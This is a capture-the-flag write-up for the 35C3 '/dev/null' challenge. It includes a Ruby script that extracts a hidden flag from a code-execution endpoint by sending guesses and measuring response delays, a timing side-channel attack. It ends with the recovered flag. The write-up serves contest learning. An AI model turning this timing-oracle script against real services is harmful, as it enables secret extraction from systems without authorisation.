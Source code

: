 # /dev/null

> Solves: 42

> We're not the first but definitely the latest to offer dev-null-as-a-service. Pretty sure we're also the first to offer `Wee-piped-to-dev-null-as-a-service`[WPtDNaaS]. (We don't pipe anything, but the users don't care). This service is more useful than most blockchains (old joke, we know). Anyway this novel endpoint takes input at `/wee/dev/null` and returns nothing.
> http://35.207.132.47/

> Difficulty Estimate: Hard

This is one of the [Wee](../Wee) challenges.

## Analysis

Let's take a look at what we're dealing with.

```python
@app.route("/wee/dev/null", methods=["POST"])
def dev_null():
    json = request.get_json(force=True)
    wee = json["code"]
    wee = """
    var DEV_NULL: string = '{}'
    {}
    """.format(DEV_NULL, wee)
    _ = runwee(wee)
    return "GONE"
```

The flag is being exposed to our code but we have no way of printing it. What
else can we do?

The only thing that we can affect in the requests is how long they're going to
take. This lets us guess characters of the flag and delay the response if we're
right.

## Solution

I wrote a script to automate the task:

```ruby
require 'net/http'
require 'uri'
require 'json'

CHARS = [*'A'..'Z', *'0'..'9', '_']
done = false

flag = ""
i = ARGV.size > 0 ? ARGV[0].to_i : 0
until done
  CHARS.each do |c|
    code = <<~END
      if charAt(DEV_NULL, #{i}) == "#{c}" then
        if length(DEV_NULL) == #{i} + 1 then
          pause(5000)
        else
          pause(2000)
        end
      end
    END
    start = Time.now
    Net::HTTP.post(
      URI('http://35.207.132.47/wee/dev/null'),
      { code: code }.to_json
    )
    elapsed = Time.now - start

    if elapsed > 2
      done = true if elapsed > 5
      flag << c
      break
    end

    if c == '_'
      puts "Didn't find a hit for char ##{i}"
      flag << " "
    end
  end
  puts flag
  i += 1
end

puts "Flag: #{flag}"
```

Even though most of the time this script doesn't trigger any additional delays
it takes roughly 11 minutes to execute with a simple request taking 0.7 s. It
also yielded a few incorrect characters which had to be corrected by guesswork
or running it again. The final flag is:

```
35C3_TH3_SUN_IS_TH3_SAM3_YOU_RE_OLDER
```
